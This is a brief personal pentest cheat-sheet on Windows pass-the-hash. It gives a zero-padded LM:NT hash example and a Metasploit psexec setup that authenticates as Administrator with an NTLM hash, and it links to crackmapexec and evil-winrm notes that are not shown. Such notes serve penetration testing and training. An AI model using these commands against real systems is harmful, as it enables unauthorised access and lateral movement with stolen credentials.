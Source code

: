 # Pass-the-hash
﻿
Note that if you do not have both LM and NT hashes you can set one of them with 32 0's:
00000000000000000000000000000000:0446385C4CBFBAED9F33E1D7B00E184C

## $ msf>psexec

```bash
msfconsole
exploit/windows/smb/psexec
set smbuser Administrator
set smbpass <ln:ntlm hash>
set target ... # wybrać odpoweidni target (chyba Native Upload)
```

## crackmapexec

![[crackmapexec#Pass-the-hash]]
## evil-winrm
![[tools/evil-winrm#Pass-the-hash]]
